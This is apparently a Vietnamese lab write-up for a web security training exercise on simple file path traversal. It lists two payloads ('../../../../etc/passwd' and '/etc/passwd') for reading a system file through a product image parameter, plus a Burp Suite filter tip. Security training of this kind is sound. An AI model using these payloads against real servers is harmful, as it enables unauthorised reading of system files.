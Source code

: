 # Lab: File path traversal, simple case
Bài thực hành này chứa lỗ hổng bảo mật đường dẫn trong việc hiển thị hình ảnh sản phẩm.

Để giải quyết bài thực hành, hãy truy xuất nội dung của tệp `/etc/passwd.`

Playload 1
```
../../../../etc/passwd
```
Playload 2
```
/etc/passwd
```
* Trong Filter settings của Burp Suite, chọn Show all để thấy toàn bộ ảnh, css ...  
<img src="/workspaces/portswigger/path-traversal/img/Screenshot 2025-07-23 at 22.40.11.png" width="400">
